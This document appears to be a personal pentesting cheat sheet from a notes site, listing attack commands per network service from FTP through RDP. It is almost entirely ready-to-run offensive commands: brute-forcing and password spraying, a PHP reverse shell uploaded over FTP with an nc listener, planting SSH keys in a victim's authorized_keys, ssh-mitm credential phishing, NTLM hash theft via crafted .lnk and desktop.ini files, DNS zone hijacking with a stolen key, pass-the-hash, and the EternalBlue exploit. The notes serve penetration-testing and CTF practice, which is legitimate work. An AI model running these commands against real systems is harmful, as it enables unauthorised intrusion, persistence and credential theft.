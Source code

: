 ```yaml
---
layout: notes
permalink: /notes/network/services/
title: Network Services Pentesting Cheat Sheet
---
```




# Network Services Pentesting Cheat Sheet

<!-- ------------------------------------------------FTP NOTES----------------------------------------------------------- -->

<details markdown="1">
<summary>FTP (21)</summary>
<p></p>

### Login
```bash
ftp <IP> #optional port
lftp <IP>
anonymous:anonymous
```

### Commands
```bash
cd
ls -a # List all files (even hidden)
put <filename> #Upload file
get <filename> #Download file
mput/mget #Upload/Downlaod multiple files
quit
```
### Download all files
```bash
wget -m ftp://anonymous:anonymous@10.10.10.98
wget -m --no-passive ftp://anonymous:anonymous@10.10.10.98
wget -r --user="USERNAME" --password="PASSWORD" ftp://server.com/ #If your user/password has special characters
```

### Automation
```bash
#nmap
nmap --script ftp-* -p 21 <IP>

#metasploit
use auxiliary/scanner/ftp/anonymous
use auxiliary/scanner/ftp/ftp_login
use auxiliary/scanner/ftp/ftp_version
use auxiliary/scanner/ftp/ftp_bounce
use auxiliary/scanner/ftp/bison_ftp_traversal
use auxiliary/scanner/ftp/colorado_ftp_traversal
use auxiliary/scanner/ftp/titanftp_xcrc_traversal

#Enum dirs
gobuster dir -u ftp://<IP> -w wordlist

#Bruteforce
hydra -l username -P passwords.txt <target-ip> ftp
hydra -L username.txt -p password <target-ip> ftp
hydra -l username -P passwords.txt ftp://<target-ip>
hydra -L usernames.txt -p password ftp://<target-ip>
```

### Configuration
```bash
cat /etc/vsftpd.conf
cat /etc/vsftpd/vsftpd.conf
```

### Reverse Shell
```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php
# Edit some variables in shell.php
$ip = '<your-local-ip>';
$port = 1234;
#Upload
ftp <target-ip>
# Upload the payload you downloaded
ftp> put shell.php
# Get shell
nc -lvnp 1234
http://vulnerable.com/path/to/ftp/shell.php
```
</details>


<!-- ------------------------------------------------SSH NOTES----------------------------------------------------------- -->


<details markdown="1">
<summary>SSH (22)</summary>
<p></p>

### Basic commands
```bash
sudo systemctl start ssh
sudo systemctl stop ssh
sudo systemctl restart ssh
sudo systemctl status ssh
ps -e | grep ssh
#Config
vim /etc/ssh/sshd_config
#Chek for any Connection
who | grep <username>
#Kill Connections
# -f: full process name to match
sudo pkill -f pts/#
# Authentication logs
grep 'sshd' /var/log/auth.log
```

### Enumeration
```bash
nmap --script ssh-brute -p 22 <target-ip>
nmap --script ssh-auth-methods --script-args="ssh.user=username" -p 22 <target-ip>
nmap --script ssh-* -p 22 <target-ip>

# User enumeration
msfconsole
msf> use auxiliary/scanner/ssh/ssh_enumusers

# Banner and Audit
nc <IP> 22
ssh-audit <target-ip>
```
### Bruteforce
```bash
# -t: tasks
hydra -l username -P passwords.txt <target-ip> ssh -t 4
hydra -L usernames.txt -p password <target-ip> ssh -t 4

# Specific ports
hydra -l username -P passwords.txt -s 2222 <target-ip> ssh -t 4
hydra -l username -P passwords.txt ssh://<target-ip>:2222 -t 4

#Password spraying
hydra -L usernames-list.txt -p Spring2025 ssh://10.1.1.10
```
### Crack SSH Private Key
```bash
ssh2john private_key.txt > hash.txt
# or
python2 /usr/share/john/ssh2john.py private_key.txt > hash.txt

# Crack the password of the private key
john --wordlist=wordlist.txt hash.txt
```
### Connect
```bash
ssh username@<target-ip>
ssh username@<target-ip> -p 22

# Using private key
ssh -i id_rsa username@<target-ip>

# Without username
ssh 10.0.0.1

# Additional options
# If we got the error message "no matching host key type found. Their offer: ssh-rsa..."
ssh -o HostKeyAlgorithms=+ssh-rsa user@10.0.0.1
# If we got error "no matching key exchange method found. Their offer: diffie-hellman-..."
ssh -o KexAlgorithms=+diffie-hellman-group1-sha1 user@10.0.0.1

#Test connection
ssh -T username@10.0.0.1
ssh -T username@10.0.0.1 -vvv

#Command execution
ssh username@<target-ip> 'ls -l'

#Windows AD
ssh domain-name\\username@domain-controller

#Via Private Key
cat /home/<victim-user>/.ssh/id_rsa
echo 'copied content of id_rsa' > private_key.txt
chmod 600 private_key.txt
ssh -i private_key.txt victim-user@<remote-ip>
```

### Transfer files
```bash
# Send a file
scp ./example.txt user@<ip>:./example.txt\

# Send a directory
scp -r ./example user@<ip>:/home/<ip>/

# Download a file
scp user@<ip>:/home/<user>/path/to/file.txt .

# Download a directory
scp -r user@<ip>:/home/<user>/path/to/file.txt .
```
### Create SSH Keys
```bash
# Specify the output file
ssh-keygen -f key

# Specify Ed25519
ssy-keygen -t ed25519

#In target machine install ssh
ssh-copy-id username@<target-ip>
```

### Generate SSH Keys and Set Up Public Key to Connect Remote Machine
```bash
#Check if authorized_keys Exists in Remote Machine
ls /home/<remote-user>/.ssh/authorized_keys
#If it exists, you may be able to connect SSH with your keys as victim user.

#Generate SSH Keys in Local Machine
ssh-keygen -f key

#Copy the content of publick key
cat ./key.pub
#Then copy the content of public key you generated.

#Add the Content of Publick Key to authorized_keys
#In remote machine
echo '<content of id_rsa.pub' >> /home/<victim-user>/.ssh/authorized_keys

#Login with Private Key
#In local machine, we have a SSH private key in local machine so we can login the target SSH server with it.
# Change permission of the private key ('key', here)
chmod 600 key
# Login with it
ssh victim@<target-ip> -i key
```
### Stealing Credentials via MiTM
```bash
# If not have the ssh-mitm, install first.
pip3 install ssh-mitm --upgrade

# --enable-trivial-auth: The "trivial authentication" phishing attack
# --remote-host: Specify the target ip/domain
# --listen-port: Specify the ip address to listen in local machine
ssh-mitm server --enable-trivial-auth --remote-host example.com --listen-port 2222
```

</details>


<!-- ------------------------------------------------TELNET NOTES----------------------------------------------------------- -->

<details markdown="1">
<summary>Telnet (23)</summary>
<p></p>

### Enumeration
```bash
nmap -n -sV -Pn --script "*telnet*" -p 23 {IP}
nmap --script telnet-encryption -p 23 <target-ip>
nmap --script telnet-ntlm-info -p 23 <target-ip>
nmap --script telnet-brute --script-args userdb=users.txt,passdb=passwords.txt,telnet-brute.timeout=8s -p 23 <target-ip>
```

### Configuration
```bash
cat /etc/inetd.conf
# or
cat /etc/xinetd.d/telnet
cat /etc/xinetd.d/stelnet
```

### Connect
```bash
telnet <target-ip> <target-port>
telnet <target-ip> 23
```
</details>


<!-- ------------------------------------------------SMTP NOTES----------------------------------------------------------- -->


<details markdown="1">
<summary>SMTP (25/465/587)</summary>
<p></p>

### Enumeration
```bash
nmap --script smtp-brute -p 25,465,587 <target-ip>
nmap --script smtp-commands -p 25,465,587 <target-ip>
nmap --script smtp-enum-users -p 25,465,587 <target-ip>
nmap --script smtp-ntlm-info --script-args smtp-ntlm-info.domain=example.com -p 25,465,587 <target-ip>
nmap --script smtp-vuln-cve2011-1764 -p 25,465,587 <target-ip>
nmap --script smtp-* -p 25,465,587 <target-ip>

# MX Domains
dig mx example.com

#Metasploit
use auxiliary/scanner/smtp/smtp_enum
```

### Users
```bash
# VRFY - check if the user exists in the SMTP server
smtp-user-enum -M VRFY -u <username> -t <target-ip>
smtp-user-enum -M VRFY -U usernames.txt -t <target-ip>

# RCPT - check if the user is allowed to receive mails in the SMTP server
smtp-user-enum -M RCPT -u <username> -t <target-ip>
smtp-user-enum -M RCPT -U usernames.txt -t <target-ip>

# EXPN - reveal the actual email address
smtp-user-enum -M EXPN -u <username> -t <target-ip>
smtp-user-enum -M EXPN -D <hostname> -U usernames.txt -t <target-ip>
```

### STARTTLS
```bash
# port 25
openssl s_client -starttls smtp -connect <target-ip>:25
# Port 465
openssl s_client -crlf -connect <target-ip>:465
# Port 587
openssl s_client -starttls smtp -crlf -connect <target-ip>:587
```

### Connect
```bash
nc <target-ip> 25
# or
telnet <target-ip> 25
```

### Commands
```bash
# Identify SMTP Server
helo example.com
# List all supported enhanced functions
ehlo example.com
# 8BITMIME - allow to send 8-bit data
# AUTH - authentication for the SMTP connection
# CHUNKING - transfer chunks of data
# DSN (Delivery Status Notifications) - notify delivery status
# ENHANCEDSTATUSCODES - allow to show more details of the status
# ETRN - process remote queue
# EXPN - expand mailing list
# HELP - help about commands
# PIPELINING - allow the multiple commands
# SIZE - maximum message size that can be received
# SMTPUTF8 -
# STARTTLS - communicate with TLS
# SEND - send message to terminal
# TURN - swap client and server
# VRFY - check if the user exists in the SMTP server

# Auth Login
# The AUTH LOGIN command allows us to login. We need to input username/password in Base64.
334 VXNlcm5hbWU6 # Base64-encoded "username:"
dGVzdA== # Base64-encoded "test"
334 UGFzc3dvcmQ6 # Base64-encoded "password:"
cGFzc3dvcmQ= # Base64-encoded "password"

# Messages
## 1. check if the user exists
vrfy <username>
vrfy root
# 2. set the address of the mail sender
mail from: <username>
mail from: root
mail from: sender@example.com
# 3. set the address of the mail recipient
rcpt to: <username>
rcpt to: root
rcpt to: recipient@example.com
# 4. send data of message (the message end with ".")
data
subject: Test Mail
This is a test mail.

# process remote queue
etrn example.com
# list the mailing list
expn example.com
```

### Send Mail
```bash
# Tool https://github.com/jetmore/swaks
swaks --to remote-user@example.com --from local-user@<local-ip> --server mail.example.com --body "hello"

# --attach: Attach a file
swaks --to remote-user@example.com --from local-user@<local-ip> --server mail.example.com --body "hello" --attach @evil.docx
```

### Start SMTP Server
```bash
# -n: No setuid
# -c: Classname
sudo python3 -m smtpd -n -c DebuggingServer 10.0.0.1:25
```
</details>


<!-- ------------------------------------------------DNS NOTES----------------------------------------------------------- -->


<details markdown="1">
<summary>DNS (53)</summary>
<p></p>

### Enumeration
```bash
# Nmap
nmap --script dns-nsec-enum --script-args dns-nsec-enum.domains vulnerable.com -p 53 <target-ip>
nmap --script dns-random-srcport -p 53 <target-ip>
nmap --script dns-recursion -p 53 <target-ip>
nmap --script dns-service-discovery -p 53 <target-ip>
nmap --script dns-* -p 53 <target-ip>
nmap -n --script "(default and *dns*) or fcrdns or dns-srv-enum or dns-random-txid or dns-random-srcport" <target-ip>

# Get IP address from the domain
host example.com

# Reverse Lookup (Resolves domain name from IP address)
dig -x <ip>
dig -x 8.8.8.8
```

### Online Tools
[https://dnsdumpster.com/](https://dnsdumpster.com/)

### Subdomain Discovery
```bash
dnsenum --dnsserver <target-ip> -f wordlist.txt example.com

# Do not scrape from Google search
# -p: The number of google search pages
# -s: The maximum number of subdomains that will be scraped from Google
dnsenum --dnsserver <target-ip> --enum -p 0 -s 0 -f wordlist.txt example.com

# Fuzzing
# ffuf tool
ffuf -w /usr/share/wordlists/dirb/small.txt -u http://victim.htb/ -H "Host: FUZZ.victim.htb" -c -fc 301
ffuf -H "Host: FUZZ.$DOMAIN" -H "User-Agent: PENTEST" -c -w "/path/to/wordlist.txt" -u $URL
ffuf -c -r -w "/path/to/wordlist.txt" -u "http://FUZZ.$TARGET/"
# gobuster tool
gobuster vhost --useragent "PENTEST" --wordlist "/path/to/wordlist.txt" --url $URL
# wfuzz tool
wfuzz -H "Host: FUZZ.victim.com" --hc 404,403 -H "User-Agent: PENTEST" -c -z file,"/path/to/wordlist.txt" $URL
```

### DNS Records
```bash
# ANY (all) record
did example.com ANY
dig example.com @<dns-ip> ANY
dig example.com +nocmd +noall +answer ANY

# NS (nameserver) record
dig example.com NS

# TXT record
dig example.com TXT

# Specify a public DNS server
# Cloudflare
dig example.com @1.1.1.1
# Google
dig example.com @8.8.8.8
# Quad9
dig example.com @9.9.9.9
```

### Zone Transfer
The zone transfer is the process of copying the zone file on a primary DNS server to a secondary DNS server.
```bash
# axfr: Check if the Full Zone Transfer (AXFR) is available
dig @<nameserver> AXFR
dig example.com @<nameserver> AXFR
dig example.com @example.com AXFR
dig <zone-name> @<nameserver> AXFR
```

### BIND
```bash
# BIND version
dig @<nameserver-address> chaos txt version.bind
```

### Configuration
```bash
# In Linux
/etc/bind/named.conf
/etc/bind/named.conf.options
/etc/bind/named.conf.local
/etc/bind/named.conf.default-zones

#Example: If we found the secret key such like below, we can update DNS zone.
# /etc/bind/named.conf
key "rndc-key" {
    algorithm hmac-sha256;
    secret "zBatC828gunRa...bA=";
};
# We can update DNS Zone with the nsupdate command:
# -d: Debug mode
# -y: Set the literal TSIG (Transaction Signature) authentication key.
nsupdate -d -y hmac-sha256:rndc-key:zBatC828gunRa...bA= 
Creating key...
namefromtext
keycreate
# Enter target domain
> server example.com
# Enter the new record
# 86400: The TTL (Time-To-Live) for the DNS record. Set 86400 seconds (24 hours) here.
# IN: Internet
# A: A record
# 10.0.0.1: Set your local ip address
> update add sub.example.com 86400 IN A 10.0.0.1
> send
Reply from SOA query:
...
```

### Resolve domains
```bash
#Edit /etc/hosts file as root to add custom domains.
nano /etc/hosts

# Add the custom domain
10.0.0.2  vulnerable.com sub.vulnerable.com
10.0.0.3  vulnerable2.com

sudo systemctl restart systemd-hostnamed
```

### Set DNS Resolver
```bash
#Edit /etc/resolv.conf file as root to add custom nameservers.
nano /etc/resolv.conf

#Google
nameserver 8.8.8.8
nameserver 8.8.4.4
# IPv6
nameserver 2001:4860:4860::8888
nameserver 2001:4860:4860::8844

#Cloudflare
nameserver 1.1.1.1

sudo systemctl restart systemd-resolved.service
```

### DNS Cache
```bash
#Clear IP addresses or DNS records from caches.
sudo resolvectl flush-caches
# or
sudo systemd-resolve --flush-cache

#Check DNS caches are actually flushed
sudo resolvectl statistics
# or
sudo systemd-resolve --statistics
```
</details>

<!-- ------------------------------------------------Kerberos NOTES----------------------------------------------------------- -->


<details markdown="1">
<summary>Kerberos (88)</summary>
<p></p>

### Enumeration
```bash
nmap --script krb5-enum-users --script-args krb5-enum-users.realm='example.local'-p 88 <target-ip>
```

### Bruteforce Authentication
```bash
#Using nmap script (brute usernames)
nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm="{Domain_Name}",userdb={Big_Userlist} {IP}


#Using Kerbrute: https://github.com/ropnop/kerbrute (brute usernames and passwords)
# --dc: domain controller
# -d: domain
# combos.txt: the wordlist specified must be combinations with "username:password".
kerbrute bruteforce --dc 10.0.0.1 -d example.domain combos.txt
# Users enumeration
kerbrute userenum --dc 10.0.0.1 -d example.domain usernames.txt
# Brute force user's password
kerbture bruteuser --dc 10.0.0.1 -d example.domain passwords.txt username
```

### Get list of user service principal names (SPNs)
```bash
# If you know creds
impacket-GetUserSPNs.py -request -dc-ip {IP} active.htb/svc_tgs
```

</details>


<!-- ------------------------------------------------POP NOTES----------------------------------------------------------- -->


<details markdown="1">
<summary>POP3 (110/995)</summary>
<p></p>

### Enumeration
```bash
# Banner grab
nc -nv {IP} 110

# Retrieve POP3 server capabilities (CAPA, TOP, USER, SASL, RESP-CODES, LOGIN-DELAY, PIPELINING, EXPIRE, UIDL, IMPLEMENTATION)	
nmap -v -sV --version-intensity=5 --script pop3-capabilities -p T:110 IP

# Try to bruteforce POP3 accounts
nmap --script pop3-brute --script-args pop3loginmethod=SASL-LOGIN -p T:110 IP
nmap --script pop3-brute --script-args pop3loginmethod=SASL-CRAM-MD5 -p T:110 IP
nmap --script pop3-brute --script-args pop3loginmethod=APOP -p T:110 IP

#Hydra Bruteforce (need username)
hydra -l {Username} -P {Big_Passwordlist} -f {IP} pop3 -V
```

### Commands
```bash
# Login
USER <username>
PASS <password>

# Number and total size of all messages
STAT
# List messages and size
LIST
# Retrieve the message of given number
RETR <number>
# Delete the message of given number
DELE <number>
# Reset the mailbox
RSET
# Exit the mail server
QUIT
```
</details>


<!-- ------------------------------------------------RPC NOTES----------------------------------------------------------- -->


<details markdown="1">
<summary>RPC (135/593)</summary>
<p></p>

### Enumeration
```bash
#nmap
nmap --script msrpc-enum -p 135 <target-ip>

#rpcdump
rpcdump.py <IP> -p 135
impacket-rpcdump -port 135 <target-ip> | grep -E 'MS-EFSRPC|MS-RPRN|MS-PAR'

#metasploit
use auxiliary/scanner/dcerpc/endpoint_mapper
use auxiliary/scanner/dcerpc/hidden
use auxiliary/scanner/dcerpc/management
use auxiliary/scanner/dcerpc/tcp_dcerpc_auditor

#enum4linux
# Do everything
enum4linux -a target-ip
# List users
enum4linux -U target-ip
# If you've managed to obtain credentials, you can pull a full list of users regardless of the RestrictAnonymous option
enum4linux -u administrator -p password -U target-ip
# Get username from the defaut RID range (500-550, 1000-1050)
enum4linux -r target-ip
# Get username using a custom RID range
enum4linux -R 600-660 target-ip
# List groups
enum4linux -G target-ip
# List shares
enum4linux -S target-ip
# Perform a dictionary attack, if the server doesn't let you retrieve a share list 
enum4linux -s shares.txt target-ip
# Pulls OS information using smbclient, this can pull the service pack version on some versions of Windows
enum4linux -o target-ip
# Pull information about printers known to the remove device.
enum4linux -i target-ip
```

### Connect
```bash
# Anonymous logon
rpcclient -N -U "" <target-ip>
rpcclient -N -U "" -p 593 <target-ip>
rpcclient -N -U "" dc.example.local

# Specify username
# -W: Workgroup
# -N: No password
rpcclient -U username <target-ip>
rpcclient -W WORKGROUP -U username <target-ip>
rpcclient -U username -N <target-ip>

# -k: Kerberos authentication
rpcclient -k <target-ip>
```

### Commands
```bash
# Server info
rpcclient $> srvinfo
# Enumerate domains
rpcclient $> enumdomains
# Enumerate domain users
rpcclient $> enumdomusers
# Enumerate domain groups
rpcclient $> enumdomgroups
# Domain info
rpcclient $> querydominfo
# Current username
rpcclient $> getusername
```
</details>


<!-- ------------------------------------------------SMB NOTES----------------------------------------------------------- -->


<details markdown="1">
<summary>SMB (139/445)</summary>
<p></p>

### Enumeration
```bash
#nmap
nmap --script smb-brute -p 139,445 <target-ip>
nmap --script smb-enum-shares.nse,smb-enum-users.nse -p 139,445 <target-ip>
nmap --script smb-enum* -p 139,445 <target-ip>
nmap --script smb-protocols -p 139,445 <target-ip>
nmap --script smb-vuln* -p 139,445 <target-ip>

# NetBIOS names
nmblookup -A 10.0.0.1
nbtscan 10.0.0.1
nbtscan -r 10.0.0.1/24

# Enum4linux
enum4linux <target-ip>
# All enumeration
enum4linux -a <target-ip>
# Verbose
enum4linux -v <target-ip>
# Specify username and password
enum4linux -u username -p password <target-ip>

# Enum4linux-ng
# -A: All simple enumeration including nmblookup
enum4linux-ng -A <target-ip>
# -As: All simple short enumeration without NetBIOS names lookup
enum4linux-ng -As <target-ip>
# -u: Specific username
# -p: Specific password
enum4linux-ng -u "administrator" -p "password" <target-ip>

# NetExec (https://www.netexec.wiki/)
netexec smb 10.0.0.0/24
netexec smb <target-ip>
netexec smb <target-ip-1> <target-ip-2>
netexec smb <target-ip> --pass-pol
netexec smb <target-ip> --groups
netexec smb <target-ip> --users
# Specify username/password
netexec smb <target-ip> -u username -p password
netexec smb <target-ip> -u username -p password --users
# -M zerologon: Scan for ZeroLogon
# -M petitpotam: Scan for PetitPotam
netexec smb <target-ip> -u '' -p '' -M zerologon -M petitpotam
```
### Find Shared Folders
```bash
# -N: No password
# -L: List shared directories
smbclient -N -L <target-ip>
smbclient -L <target-ip> -U username

smbmap -H <target-ip>
# Recursive
smbmap -H <target-ip> -R
# Username and password
smbmap -u username -p password -H <target-ip>
# Execute a command
smbmap -u username -p password -H <target-ip> -x 'ipconfig'

netexec smb <target-ip> -u '' -p '' --shares
netexec smb <target-ip> -u username -p password --shares

impacket-psexec example.local/username@<target-ip>
```
### Bruteforce
```bash
netexec smb <target-ip> -u username -p passwords.txt --continue-on-success
netexec smb <target-ip> -u usernames.txt -H ntlm_hashes.txt --continue-on-success

hydra -l username -P passwords.txt <target-ip> smb
hydra -L usernames.txt -p password <target-ip> smb

# RID Brute Force
netexec smb <target-ip> -u username -p password --rid-brute 20000

# Using Metasploit
msfconsole -q
msf> use auxiliary/scanner/smb/smb_login

#If we find credentials, we can use them for smbclient or WinRM. 
#If we got "STATUS_PASSWORD_MUST_CHANGE" for some users, we can update a current password to a new one.
smbpasswd -r <target-ip> -U <username>
# or
impacket-smbpasswd <DOMAIN>/<username>:<password>@<target-ip> -newpass <new-password>
# If you don't have impacket-smbpasswd, download it from a repository.
wget https://raw.githubusercontent.com/fortra/impacket/master/examples/smbpasswd.py
```

### Password Spraying
```bash
# User enumeration
netexec smb <target-ip> -u John -p Password123 --users
netexec smb <target-ip> -u John -H <NTLM_HASH> --users

# Find users with same password
netexec smb <target-ip> -u users.txt -p Password123 --continue-on-success
netexec smb <target-ip> -u users.txt -p found_passwords.txt --continue-on-success
netexec smb <target-ip> -u users.txt -H <NTLM_HASH> --continue-on-success
netexec smb <target-ip> -u users.txt -H found_ntlm_hashes.txt --continue-on-success
```

### RID Cycling Attack
RID Enumeration. It attempts to enumerate user accounts through null sessions.
```bash
# Anonymous logon
# 20000: Maximum RID to be cycled
impacket-lookupsid example.local/anonymous@<target-ip> 20000 -no-pass
impacket-lookupsid example.local/guest@<target-ip> 20000 -no-pass
impacket-lookupsid example.local/guest@<target-ip> 20000
# Specify user
impacket-lookupsid example.local/user@<target-ip> 20000 -hashes <lmhash>:<nthash>
impacket-lookupsid example.local/user@<target-ip> 20000


# USEFUL COMMAND
# This command extract usernames. It's useful for further enumeration which uses usernames.
# Replace the following keywords:
#  - `example.com` => Target domain
#  - `10.0.0.1`    => Target IP
#  - `DOMAIN`      => Target domain name
impacket-lookupsid example.com/guest@10.0.0.1 20000 -no-pass > tmp.txt | cat tmp.txt | grep SidTypeUser | cut -d ' ' -f 2 | sed 's/DOMAIN\\//g' | sort -u > users.txt && rm tmp.txt
```

### NTLM Stealing via ntlm_tool
```bash
git clone https://github.com/Greenwolf/ntlm_theft
# -g all: Generate all files.
# -s: Local IP (attacker IP)
# -f: Folder to store generated files.
python3 ntlm_theft -g all -s <local-ip> -f samples

#After generating files with ntlm_theft put the .lnk file to shared folder
smbclient -N //10.0.0.1/example
smb> put samples.lnk

#Start responder
sudo responder -I eth0
```

### NTLM Stealing via Desktop.ini
```bash
#We can retrieve the hashes by putting desktop.ini file, that contains arbitrary icon resource path, to the shared folder.
#Create a new desktop.ini in local machine.
[.ShellClassInfo]
IconResource=\\<local-ip>\test

#Then upload it to the writable shared folder.
put desktop.ini

#Start responder
sudo responder -I eth0
```

### Connect
```bash
# anonymous login
smbclient //10.0.0.1/somedir -N
# If the folder name contains spaces, surround with double quotes
smbclient "//10.0.0.1/some dir" -N
# Specify user
smbclient //10.0.0.1/somedir -U username
# nobody, no-pass
smbclient //10.0.0.1/somedir -N -U nobody
# Specify workgroup
smbclient -L 10.0.0.1 -W WORKGROUP -U username

#Windows shell
impacket-wmiexec example.local/username@10.0.0.1
# Pass the Hash
impacket-wmiexec -hashes abcdef0123456789abcdef0123456789:c2597747aa5e43022a3a3049a3c3b09d example.local/username@10.0.0.1
```

### Commands
```bash
ls
get file.txt
get "my document.txt"

#Download all files
mask ""
recurse ON
prompt OFF
mget *

#Download files using smbget
smbget smb://<target-ip>/somedir/example.txt -U username
smbget -R smb://<target-ip>/somedir -U username
# Specify workgroup
smbget -R smb://<target-ip>/somedir -w WORKGROUP -U username
# as anonymous user
smbget smb://<target-ip>/somedir -U anonymous
password: anonymous

#Upload files
put example.txt

#Reverse shell
put shell.aspx
#Configure listener
nc -lvnp 4444
#Access the shared file
https://example.com/path/to/smb/share/shell.aspx
```

### Eternal Blue (MS17-010)
```bash
#Metasploit
use exploit/windows/smb/ms17_010_eternalblue
set rhosts <target-ip>
set lhost <local-ip>
run
# If you cannot get a shell with the default payloed (windows/x64/meterpreter/reverse_tcp), try to change the payload
set payload payload/generic/shell_reverse_tcp

#Automated tool (autoblue)
git clone https://github.com/3ndG4me/AutoBlue-MS17-010
python zzz_exploit.py -target-ip <target-ip> -port 445 'username:password@target'
```

</details>


<!-- ------------------------------------------------IMAP NOTES----------------------------------------------------------- -->


<details markdown="1">
<summary>IMAP (143/993)</summary>
<p></p>

### Enumeration
```bash
nc -nv <IP> 143
openssl s_client -connect <IP>:993 -quiet
nmap --script imap-capabilities -p 143 <target-ip>

#metasploit
use auxiliary/scanner/imap/imap_version
set RHOSTS {IP}
set RPORT 143
```

### Connect
```bash
telnet 10.0.0.1 143
```

### Commands
```bash
# Login
a1 login "<username>" "<password>"
#List Folders/Mailboxes
A1 LIST "" *
A1 LIST INBOX *
A1 LIST "Archive" *
#Select a mailbox
A1 SELECT INBOX
#List messages
A1 FETCH 1:* (FLAGS)
A1 UID FETCH 1:* (FLAGS)
#Retrieve Message Content
A1 FETCH 2 body[text]
A1 FETCH 2 all
# Logout
a1 logout
# Close mailbox
a1 close
```
</details>


<!-- ------------------------------------------------LDAP NOTES----------------------------------------------------------- -->


<details markdown="1">
<summary>LDAP (389/636/3268/3269)</summary>
<p></p>

### Enumeration
```bash
# Nmap
nmap --script ldap-brute --script-args ldap.base='"cn=users,dc=cqure,dc=net"' -p 389 <target-ip>
nmap --script ldap-search -p 389 <target-ip>
nmap --script ldap-* -p 389 <target-ip>
nmap --script "ldap* and not brute" -p 389 <target-ip>
nmap -n -sV --script "ldap* and not brute" <IP> #Using anonymous credentials


# NetExec
# -k: Use Kerberos authentication
netexec ldap <target-ip> -u usernames.txt -p '' -k
# --trusted-for-delegation: Enumerate computers and users with the flag `TRUSTED_FOR_DELEGATION`
# reference: https://learn.microsoft.com/en-us/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties#property-flag-descriptions
netexec ldap <target-ip> -u username -p password --trusted-for-delegation
```

### ldapsearch
```bash
# -x: Simple authentication
# -b: base dn for search
ldapsearch -x -H ldap://10.0.0.1 -b "dc=example,dc=com"
ldapsearch -x -H ldaps://10.0.0.1:636 -b "dc=example,dc=com"

# As administrator
# -D: bind DN
# -w: bind password
ldapsearch -x -H ldap://10.0.0.1 -b "dc=example,dc=com" -D "cn=admin,dc=example,dc=com" -w password
ldapsearch -x -H ldap://10.0.0.1 -b "dc=example,dc=com" -D "cn=admin,dc=example,dc=com" -W

# Search sAMAccountName
ldapsearch -x -H ldap://10.0.0.1 -b "dc=example,dc=com" -D "workspace\\ldap" -w 'password' "(objectclass=*)" "sAMAccountName"
ldapsearch -x -H ldap://10.0.0.1 -b "dc=example,dc=com" -D "workspace\\ldap" -w 'password' "(objectclass=*)" "sAMAccountName" | grep sAMAccountName

# Get information
ldapsearch -x -H ldap://10.0.0.1 -b "cn=sample,cn=Users,dc=example,dc=com" -w 'password' "(objectclass=*)" -D "example\\name"
```

### Against AD
```bash
# --no-html: Disable html output
# --no-grep: Disable greppable output
# -o: Output dir
ldapdomaindump -u 'DOMAIN\username' -p password <target-ip> --no-html --no-grep -o dumped

# Research
ldapsearch -LLL -x -H ldap://pdc01.lab.ropnop.com -b ‘’ -s base ‘(objectclass=*)’

# Windapsearch is a good tool to automate the job (https://github.com/ropnop/windapsearch)
# Get computers
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --computers
# Get groups
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --groups
# Get users
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --da
# Get Domain Admins
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --da
# Get Privileged Users
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --privileged-users
```
</details>


<!-- ------------------------------------------------RDP NOTES----------------------------------------------------------- -->


<details markdown="1">
<summary>RDP (3389)</summary>
<p></p>

```bash
#Password spraying
git clone https://github.com/xFreed0m/RDPassSpray
#Options:
RDPassSpray.py [-h] (-U USERLIST | -u USER  -p PASSWORD | -P PASSWORDLIST) (-T TARGETLIST | -t TARGET) [-s SLEEP | -r minimum_sleep maximum_sleep] [-d DOMAIN] [-n NAMES] [-o OUTPUT] [-V]
#Usage:
python3 RDPassSpray.py -U users.txt -p Spring2025! -t 10.100.10.240:3389
```
</details>

<details markdown="1">
<summary>WinRM (5985/5986)</summary>

```bash

```
</details>


<!-- ------------------------------------------------qwe NOTES----------------------------------------------------------- -->
